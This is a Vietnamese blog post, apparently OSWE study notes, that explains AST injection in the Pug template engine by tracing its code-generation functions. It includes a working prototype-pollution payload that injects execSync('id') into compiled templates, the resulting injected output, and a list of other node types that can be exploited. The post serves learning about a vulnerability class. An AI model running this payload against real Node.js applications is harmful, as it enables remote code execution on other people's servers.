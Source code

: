 ```yaml
---
title: "AST Injection"
date: 2022-11-06T10:55:32+07:00
draft: false
tag: ["OSWE"]
---
```

<h1>Chỉ là note lại những gì đã học được</h1>
<p align="center">
<a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fn00b-bot.com%2Fast-injection%2F&count_bg=%2379C83D&title_bg=%23555555&icon=&icon_color=%23E7E7E7&title=hits&edge_flat=false"/></a>
</p>
<!--more-->
Trong khi đang speedrun OSWE đến những chương cuối của OSWE thì tôi gặp dạng bài Prototype Pollution (dạng bài mà tôi trước giờ chỉ copy & paste payload như 1 thằng n00b , anyway bây giờ vẫn là 1 thằng n00b) và nếu muốn rõ về cách payload hoạt động như thế nào thì tôi lại phải đi học Javascript. Một ngôn ngữ tôi không thích lắm vì logic ảo ma của nó nhưng biết sao giờ chẳng lẽ lại bỏ qua chương này và thế là lại phải học thôi !!

![](contrai.gif)

## AST là gì
Hiểu đơn giản AST (Abstract Syntax Tree) là cây biểu diễn cấu trúc cú pháp của mã nguồn của một 
ngôn ngữ nhất định ( [Chi tiết](https://www.twilio.com/blog/abstract-syntax-trees) )
![](ast.png)
AST được sử dụng thường xuyên trong JS ví dụ như: template engines, typescript, ... ( tôi cũng không rõ dùng ở typescript chỗ nào vì đọc nó bảo thế thì list nhìn cho nó dài thôi 🙃). Trong bài này thì ta tập trung vào template engines. Flow chung cho template engines như ảnh dưới đây:
![](template.jpg)

## Pug Template Engines
Trong bài này ta sẽ đi vào cụ thể một template engines đó là Pug vì đây là một trong nững template engines khá phổ biến của JS. Flow của Pug như sau:
![](pugast.jpg)
Đầu tiên chúng ta xem cách khai báo để tạo ra một template.
```
const pug = require('pug');

// Compile the source code
const compiledFunction = pug.compileFile('template.pug');

// Render a set of data
console.log(compiledFunction({
  name: 'Timothy'
}));
// "<p>Timothy's Pug source code!</p>"

// Render another set of data
console.log(compiledFunction({
  name: 'Forbes'
}));
// "<p>Forbes's Pug source code!</p>"
```
Ở đây nhận tham số đầu vào là một file có chứa các cú pháp của Pug. Sau khi xem xét qua hàm thì tôi tóm gọn lại là flow như sau **compileFile => handleTemplateCache => compile** nên chúng ta sẽ bắt đầu từ hàm compile(/pug/lib/index.js).

Trong hàm **compile** sẽ gọi đến hàm **compileBody** (hàm này trả về 1 object có thuộc tính *body* chứa code JS được tạo ra)
```
function compileBody(str, options) {
...
  var ast = load.string(str, { //magic })
...
  return {body: js, dependencies: dependencies};
}
```
Tiếp tục gọi đến hàm **load** và 1 cách magic ta có được giá trị AST. Sau khi có AST thì nó được truyền vào hàm **generateCode** (như cái tên của nó hàm này trả về code JS được tạo bởi AST)
```
var js = (findReplacementFunc(plugins, 'generateCode') || generateCode)(ast, {
    pretty: options.pretty,
    compileDebug: options.compileDebug,
    doctype: options.doctype,
    inlineRuntimeFunctions: options.inlineRuntimeFunctions,
    globals: options.globals,
    self: options.self,
    includeSources: options.includeSources ? debug_sources : false,
    templateName: options.templateName,
  });
```
Lần mò vào hàm **generateCode** thì hàm này tạo ra một đối tượng **Compiler** và gọi đến phương thức **compile**
```
function generateCode(ast, options) {
  return new Compiler(ast, options).compile();
}
=>
  compile: function() {
...
    this.visit(this.node); // code được gen và đẩy vào buff ở đây
...
```
Từ đây tất cả logic tạo code js từ AST đều ở đây.Ta sẽ phân tích 1 ví dụ như sau: 
```
const pug = require('pug');
compiledFunction = pug.compile("nothing",{debug:true})
```
Bây giờ giá trị của AST sẽ là:

![](astvalue.png)

Flow cơ bản của quá trình này là 

```
 visit: function(node, parent) {
    var debug = this.debug;

    if (!node) { 
        ... 
    }

    if (debug && node.debug !== false && node.type !== 'Block') {
      if (node.line) {
        var js = ';pug_debug_line = ' + node.line;
        if (node.filename)
          js += ';pug_debug_filename = ' + stringify(node.filename);
        this.buf.push(js + ';');
      }
    }

    if (!this['visit' + node.type]) { // Kiểm tra valid type của node
    ...
    }

    this.visitNode(node); // gọi đến hàm gen code với các type tương ứng
  }
```
Một số hàm gen code với các type
```
  visitText: function(text) {
    this.buffer(text.val);
  }
-------------------------------------------------------
  visitComment: function(comment) {
    if (!comment.buffer) return;
    if (this.pp) this.prettyIndent(1, true);
    this.buffer('<!--' + comment.val + '-->');
  }
-------------------------------------------------------
  visitCode: function(code) {
    // Wrap code blocks with {}.
    // we only wrap unbuffered code blocks ATM
    // since they are usually flow control

    // Buffer code
    if (code.buffer) {
      var val = code.val.trim();
      val = 'null == (pug_interp = ' + val + ') ? "" : pug_interp';
      if (code.mustEscape !== false)
        val = this.runtime('escape') + '(' + val + ')';
      this.bufferExpression(val);
    } else {
      this.buf.push(code.val);
    }

    // Block support
    if (code.block) {
      if (!code.buffer) this.buf.push('{');
      this.visit(code.block, code);
      if (!code.buffer) this.buf.push('}');
    }
  },
 
```

## Exp
Payload Prototype Injection
```
const pug = require('pug');
Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};
pug.compile('h1= msg', {debug:true});
```
Template Function được trả về đã được injection
```
Compiled Function:

  function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;
      var locals_for_with = (locals || {});
      
      (function (console, msg, process) {
        ;pug_debug_line = 1;
  pug_html = pug_html + "\u003Ch1\u003E";
  ;pug_debug_line = 1;
  pug_html = pug_html + (pug.escape(null == (pug_interp = msg) ? "" : pug_interp));
  ;pug_debug_line = console.log(process.mainModule.require('child_process').execSync('id').toString());
  pug_html = pug_html + "ndefine\u003C\u002Fh1\u003E";
      }.call(this, "console" in locals_for_with ?
          locals_for_with.console :
          typeof console !== 'undefined' ? console : undefined, "msg" in locals_for_with ?
          locals_for_with.msg :
          typeof msg !== 'undefined' ? msg : undefined, "process" in locals_for_with ?
          locals_for_with.process :
          typeof process !== 'undefined' ? process : undefined));
      ;} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
```

Lúc này trong đầu mình có câu hỏi tại sao lại là type Text chứ không phải các type khác và liệu có type nào còn có thể khai thác được không.
Sau 1 hồi debug thì mình tìm ra được các type có thể lợi dụng cần phải thỏa mãn 2 điều kiện:
* Có hàm visit*Type* (visitCode, visitTag, ..)
* Thuộc các case sau để tránh gọi đến hàm walkAST 1 lần nữa và mình tìm thêm được 1 số type hợp lệ.
```
    case 'Attrs':
    case 'BlockComment': // work
    case 'Comment': // work
    case 'Doctype': // work
    case 'IncludeFilter':
    case 'MixinBlock': // work
    case 'YieldBlock': // work 
    case 'Text': // 
      break;
```
Liệu payload trên có hoạt động với mọi template không? => Câu trả lời là không nếu template không tham chiếu đến giá trị nhận từ argument.( điều này khó xảy ra vì nếu không tham chiếu đến đến các biến được truyền vào thì đã không sử dụng template từ ban đầu)
Ví dụ về một template mà payload trên không hoạt động.
```
pug.compile('h1', {debug:true})
----------------------------------
Compiled Function:

  function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;pug_debug_line = 1;
  pug_html = pug_html + "\u003Ch1\u003E\u003C\u002Fh1\u003E";} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
```

Tuy nhiên mình phát hiện ngay cả trong trường hợp trên, ta vẫn có thể khai thác được cũng bằng Prototype Pollution và mình để tự bạn tìm ra câu trả lời cho trường hợp trên. (dễ quá nó chán lắm 😂😂)
![](tem.png)